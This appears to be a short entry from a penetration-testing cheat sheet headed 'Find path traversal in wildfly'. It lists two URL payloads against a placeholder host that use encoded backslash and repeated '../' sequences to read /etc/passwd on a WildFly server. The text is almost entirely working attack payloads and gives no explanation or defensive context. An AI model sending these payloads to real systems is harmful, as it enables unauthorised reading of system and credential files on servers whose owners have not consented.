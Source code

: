 ### Find path traversal in wildfly
```
https://<rhost>/public/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd  
https://<rhost>/public/?path=//../../../../../../../../../../../../../../../../etc/passwd  
```

